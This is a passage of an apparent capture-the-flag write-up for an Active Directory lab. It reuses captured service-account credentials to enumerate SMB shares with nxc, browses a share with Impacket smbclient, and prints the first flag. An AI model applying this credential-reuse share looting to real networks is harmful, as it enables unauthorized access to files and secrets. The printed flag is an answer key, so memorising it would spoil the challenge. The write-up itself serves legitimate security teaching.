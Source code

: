 ## Looting Shares

After obtaining access to `svc_vdi`, we can use these credentials to re-enumerate shares on `dc01.antennae.rv` to look for any interesting files. We'll find that we have read access to the `service-home` share.

```
~$ nxc smb dc01.antennae.rv -u 'svc_vdi' -p 'tr4v15' --shares
SMB         10.5.10.10      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:antennae.rv) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.5.10.10      445    DC01             [+] antennae.rv\svc_vdi:tr4v15 
SMB         10.5.10.10      445    DC01             [*] Enumerated shares
SMB         10.5.10.10      445    DC01             Share           Permissions     Remark
SMB         10.5.10.10      445    DC01             -----           -----------     ------
SMB         10.5.10.10      445    DC01             ADMIN$                          Remote Admin
SMB         10.5.10.10      445    DC01             C$                              Default share
SMB         10.5.10.10      445    DC01             IPC$            READ            Remote IPC
SMB         10.5.10.10      445    DC01             NETLOGON        READ            Logon server share 
SMB         10.5.10.10      445    DC01             service-home    READ            Shared folder for services provisioned in antennae.rv
SMB         10.5.10.10      445    DC01             SYSVOL          READ            Logon server share 
```

In this share, we'll find `flag1.txt` which contains the first flag:

```
~$ smbclient.py 'svc_vdi':'tr4v15'@dc01.antennae.rv         
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

uType help for list of commands
# use service-home
# ls
drw-rw-rw-          0  Sat Aug 30 08:15:51 2025 .
drw-rw-rw-          0  Sat Aug 30 04:36:57 2025 ..
-rw-rw-rw-         78  Sat Aug 30 04:37:04 2025 .env.sample.horizon
-rw-rw-rw-      12289  Sat Aug 30 04:37:04 2025 .env.swp
-rw-rw-rw-       1284  Sat Aug 30 04:37:04 2025 Connect-Horizon.ps1
-rw-rw-rw-        925  Sat Aug 30 04:37:04 2025 Deploy-DesktopPool.ps1
-rw-rw-rw-         62  Sat Aug 30 08:15:51 2025 flag1.txt
# cat flag1.txt
RV{roAStIn6_1IkE_n0_7OMOrroW_e8cac89a3efd99b6c843857ac8faa276}
# 
```

# Flag 2: Access (Un)controlled

![](./assets/img/rv-sept/2.png)
